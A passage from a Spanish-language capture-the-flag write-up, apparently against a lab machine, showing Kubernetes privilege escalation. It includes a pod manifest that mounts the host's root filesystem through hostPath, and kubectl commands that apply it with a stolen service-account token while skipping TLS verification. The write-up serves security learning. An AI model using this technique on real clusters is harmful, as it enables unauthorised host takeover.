 ```bash
  containerStatuses:
  - containerID: containerd://0a3ab874a77bbbaf2767c915a76d202d9179f70d635e35c429d2806ca2fde4fa
    image: docker.io/library/nginx:latest
    imageID: docker.io/library/nginx@sha256:6d75c99af15565a301e48297fa2d121e15d80ad526f8369c526324f0f7ccb750
    lastState:
      terminated:
        containerID: containerd://11b48c2a2652638f80a7376f6c2ad107e4040f8348b301db5d24c80226d57665
[...]
```
¡Tenemos un contenedor de docker con una imagen de nginx en este pod! _¡Como supuse antes!_

Ahora, para llegar a root, carguemos y apliquemos una configuración maliciosa, que contiene un exploit para montar el directorio raíz "/" en nuestro nuevo directorio "pwned" y también podemos obtener una shell de root con esta configuración.

```bash
╰─ lanfran@parrot ❯ cat pwned.yaml                                                                                                  ─╯
apiVersion: v1
kind: Pod
metadata:
  name: pwned-pod
spec:
  containers:
  - image: docker.io/library/nginx@sha256:6d75c99af15565a301e48297fa2d121e15d80ad526f8369c526324f0f7ccb750
    name: pwned
    command: [ "/bin/bash", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
    volumeMounts:
    - mountPath: /pwned
      name: pwned
  volumes:
  - name: pwned
    hostPath:
      path: /
      type: Directory
```

```bash
╰─ lanfran@parrot ❯ /tmp/kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://10.10.24.160:6443 -n default apply -f pwned.yaml            ─╯
pod/pwned-pod created

╰─ lanfran@parrot ❯ /tmp/kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://10.10.24.160:6443 get pods  ─╯
NAME                     READY   STATUS    RESTARTS   AGE
nginx-7f459c6889-8slv2   1/1     Running   2          147d
gitea-0                  1/1     Running   2          147d
pwned-pod                1/1     Running   0          44s
```
¡Se creó nuestro nuevo pod, ahora solo queda conectarse al pod y obtener la bandera de root!
